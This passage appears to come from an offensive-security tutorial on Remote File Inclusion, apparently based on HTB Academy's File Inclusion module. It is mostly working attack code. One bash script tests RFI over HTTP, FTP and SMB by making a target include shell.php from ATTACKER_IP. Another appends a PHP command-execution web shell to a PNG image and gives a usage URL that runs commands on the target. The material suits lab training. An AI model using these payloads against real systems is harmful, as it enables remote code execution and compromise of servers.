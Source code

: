 ```bash
response=$(curl -s "${TARGET}http://${ATTACKER_IP}/shell.php")
if echo "$response" | grep -q "RFI"; then
    echo "✓ HTTP RFI appears to work"
else
    echo "✗ HTTP RFI failed"
fi

# Test FTP RFI
echo "[+] Testing FTP RFI..."
response=$(curl -s "${TARGET}ftp://${ATTACKER_IP}/shell.php")
if echo "$response" | grep -q "RFI"; then
    echo "✓ FTP RFI appears to work"
else
    echo "✗ FTP RFI failed"
fi

# Test SMB RFI (Windows)
echo "[+] Testing SMB RFI..."
response=$(curl -s "${TARGET}\\\\${ATTACKER_IP}\\share\\shell.php")
if echo "$response" | grep -q "RFI"; then
    echo "✓ SMB RFI appears to work"
else
    echo "✗ SMB RFI failed"
fi
EOF
chmod +x test_rfi.sh
```

### Advanced RFI Payloads

**Steganographic RFI:**
```bash
# Hide PHP in image file
cat << 'EOF' > create_steganographic_rfi.sh
#!/bin/bash
# Create image with embedded PHP
cp /usr/share/pixmaps/debian-logo.png malicious.png
echo '<?php system($_GET["cmd"]); ?>' >> malicious.png

echo "[+] Created malicious.png with embedded PHP"
echo "Usage: http://target.com/lfi.php?file=http://ATTACKER_IP/malicious.png&cmd=id"
EOF
chmod +x create_steganographic_rfi.sh
```

---

*This guide covers Remote File Inclusion techniques from HTB Academy's File Inclusion module, demonstrating how to achieve RCE and internal network access through external file inclusion.* 